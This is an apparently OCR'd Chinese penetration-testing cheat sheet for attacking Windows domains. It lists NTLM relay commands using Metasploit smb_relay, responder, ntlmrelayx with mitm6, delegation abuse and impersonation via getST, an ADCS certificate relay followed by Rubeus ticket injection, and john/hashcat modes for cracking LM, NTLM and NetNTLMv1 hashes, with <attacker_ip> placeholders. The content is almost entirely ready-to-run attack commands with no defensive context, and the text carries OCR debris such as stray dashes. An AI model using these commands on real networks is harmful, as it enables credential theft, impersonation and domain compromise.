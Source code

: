 use exploit/windows/smb/smb\_relay #常用于windows2003 / windows server2008-

1-
2-
3-

responder -I eth0 # 记得先关闭本机的 smb 和 http 服务-
-
ntlmrelayx.py -tf targets.txt -

### 2.mitm6 -i eth0 -d



```

ntlmrelayx.py -6 -wh <attacker\_ip> -l /tmp -socks -debug-
-
ntlmrelayx.py -6 -wh <attacker\_ip> -t smb://<target> -l /tmp -socks -debug-
-
ntlmrelayx.py -t ldaps://<dc\_ip> -wh <attacker\_ip> --delegate-access-
-
getST.py -spn cifs/<target> <domain>/<netbios\_name>\\$ -impersonate <user>-
```


### 3.adcs


```
ntlmrelayx.py -t http://<dc\_ip>/certsrv/certfnsh.asp -debug -smb2support --adcs --template DomainController-
-
Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt-
```


## 拿到hash破解

#### 1.LM


john --format=lm hash.txt-
-
hashcat -m 3000 -a 3 hash.txt-

#### 2.NTLM



john --format=nt hash.txt-
-
hashcat -m 1000 -a 3 hash.txt-

#### 3.NTLMv1


john --format=netntlm hash.txt-
-
hashcat -m 5500 -a 3 hash.txt-
